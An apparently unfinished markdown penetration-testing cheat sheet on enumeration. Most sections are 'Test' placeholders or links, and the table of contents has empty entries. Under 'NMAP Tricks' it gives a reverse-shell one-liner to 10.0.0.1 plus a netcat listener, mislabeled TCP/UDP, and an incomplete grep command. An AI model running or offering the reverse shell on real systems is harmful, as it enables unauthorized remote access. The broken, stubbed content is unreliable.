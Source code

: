 # Enumeration

## Summary
* [NMAP](#NMAP)
   * [](#)
   * [](#)
   * [](#)
* [WFUZZ](#WFUZZ)
* [Directory](#Directory)
   * [DB](#DIRB)
   * [DIRBUSTER](#DIRBUSTER)
* [Credentials](#)
   * [John-the-Ripper](#)
   * [hashcat](#)
   * [Hydra](#)
* [](#)
* [](#)
* [](#)
 

### NMAP
#### NMAP Tricks
```
/usr/share/nmap/scripts | grep smb
```
```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
https://wfuzz.readthedocs.io/en/latest/user/basicusage.html
https://medium.com/bugbountywriteup/how-to-brute-force-efficiently-without-burp-pro-1bb2a414a09f
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```

### Credentials
```
Test
```

### John-the-Ripper
```
Test
```

### Hashcat
```
Test
```

### Hydra
```
SSH bruteforcing
https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux
```

### 
```
Test
```
